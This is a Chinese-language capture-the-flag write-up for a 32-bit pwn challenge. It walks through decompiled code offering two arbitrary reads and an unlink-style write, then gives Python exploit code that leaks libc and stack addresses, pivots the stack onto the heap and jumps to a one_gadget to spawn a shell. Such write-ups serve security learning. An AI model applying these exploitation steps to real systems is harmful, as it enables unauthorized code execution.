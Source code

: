 ### writeup 

第一次做pwn，很紧张啊 。。。。 虽然题目很简单，但是我还是做了很久。

![](./img/1.png)

#### 题目条件

题目有两次泄露，可以泄露任意地址的内容：

```c
  v3 = (char *)malloc(0x14u);
  buf = v3;
  v3[read(0, v3, 15u) - 1] = 0;
  v5 = (_DWORD *)atoll(buf);
  printf("%d, %p\n", v5, *v5);
  puts("Second chance: ");
  buf[read(0, buf, 0xFu) - 1] = 0;
  v6 = (_DWORD *)atoll(buf);
  printf("%d, %p\n", v6, *v6);
```

然后有一次任意地址写入的机会：

```c
  v7 = (node *)malloc(0x14u);
  printf("The address of the node is %p, and you can input the fake node now: ", v7);
  read(0, v7, 0x10u);
  v8 = (node *)v7->prev;
  v9 = (node *)v7->next;
  v8->next = (int)v9;
  v9->prev = (int)v8;
  return 0;
```

#### 利用思路 

第一次写入 puts 函数的 got 表地址，然后泄露出来 puts 函数的加载地址，计算出来 libc 的加载基址。

```python
putsGot = e.got['puts']
print("[*] puts got addrss :" + hex(putsGot))

r.sendline(str(putsGot)) # puts got

putAddr = r.recvline()[-11:-1]
print("[*] put address: "+putAddr)
putSymbol = libc.symbols["puts"]
print("[*] puts function symbols addr:" + hex(putSymbol))
libcBase = int(putAddr,16) - putSymbol
print("[*] libc Base addr :"+hex(libcBase))
```

第二次写入 program_invocation_name 的地址，它是指向栈的指针，泄露出来的就是栈地址。

program_invocation_name 和 ebp 之间的偏移是固定的，调试一下发现偏移是 690 ，可以得到 ebp 的地址。

```python
invocation_name_symbols = libc.symbols["program_invocation_name"]
invocation_short_name_symbols = libc.symbols["program_invocation_short_name"] 
print("[*] program_invocation_name symbols addr : "+ hex(invocation_name_symbols))
print("[*] program_invocation_short_name symbols addr : "+ hex(invocation_short_name_symbols))
invocation_name_addr = invocation_name_symbols + libcBase
invocation_short_name_addr = invocation_short_name_symbols + libcBase
print("[*] program_invocation_name addr: " + hex(invocation_name_addr))
print("[*] program_invocation_short_name addr: " + hex(invocation_short_name_addr))
print(r.recvline())
r.sendline(str(invocation_name_addr))
stackAddr = r.recvline()[-11:-1]
ebpAddr = int(stackAddr,16) - 690
print("[*] stackAddr:"+ stackAddr)
```

思路是修改 ebp 的地址，在 main 函数返回时执行 `leave` 的时候，修改 esp 的地址，做一次栈迁移，
在自己伪造的栈上放上 one_gadget 的地址，执行 retn 的时候，就会拿到shell。

但是有个问题，我们不能直接改 ebp ， 因为没用。

```asm
.text:080486D3                 add     esp, 10h
.text:080486D6                 mov     eax, [ebp+var_14]
.text:080486D9                 mov     eax, [eax+0Ch]
.text:080486DC                 mov     [ebp+var_10], eax
.text:080486DF                 mov     eax, [ebp+var_14]
.text:080486E2                 mov     eax, [eax+8]
.text:080486E5                 mov     [ebp+var_C], eax
.text:080486E8                 mov     eax, [ebp+var_10]
.text:080486EB                 mov     edx, [ebp+var_C]
.text:080486EE                 mov     [eax+8], edx
.text:080486F1                 mov     eax, [ebp+var_C]
.text:080486F4                 mov     edx, [ebp+var_10]
.text:080486F7                 mov     [eax+0Ch], edx
.text:080486FA                 mov     eax, 0
.text:080486FF                 mov     ecx, [ebp-4]
.text:08048702                 leave
.text:08048703                 lea     esp, [ecx-4]
.text:08048706                 retn
```
在 `leave` 指令执行之后，又修改了 esp `lea     esp, [ecx-4]` , 所以可以通过修改 `ebp - 4` 的值来控制 `esp`。

但是，要在哪里伪造 fake stack 呢？ 发现题目给了堆地址， 可以把fake 栈的地址伪造到堆上 。 

```python
heapAddr = int(r.recv(1024)[27:36],16)
print("[*] heap addr :" + hex(heapAddr))
# gdb.attach(r,"b *0x08048702")
one_gadget = 0x3ac5c 

print("[*] move eip to :" + hex(0x5fbc5 + libcBase))
r.sendline(p32(one_gadget + libcBase)+p32(one_gadget + libcBase)+p32(heapAddr + 4 )+p32(ebpAddr-4 -8))
```
地址是 `0x3ac5c` 的 one_gadget , 需要的条件是 ：

```bash
0x3ac5c	execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL
```
调试一下发现刚好满足。